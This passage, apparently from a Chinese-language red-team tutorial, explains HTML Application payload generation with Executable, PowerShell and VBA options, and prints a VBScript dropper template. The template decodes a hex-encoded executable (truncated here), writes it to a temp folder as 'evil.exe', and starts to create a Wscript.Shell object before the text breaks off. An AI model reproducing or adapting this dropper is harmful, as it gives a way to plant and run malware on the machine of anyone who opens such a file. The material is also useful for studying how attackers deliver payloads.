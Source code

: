 双击打开就会执行vbs代码，从而弹出计算器

![image-20231011223006570](../images/image-20231011223006570.png)

HTML Application 菜单有三个方法：

![image-20231011222135501](../images/image-20231011222135501.png)

- Executable
- PowerShell
- VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```html
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
```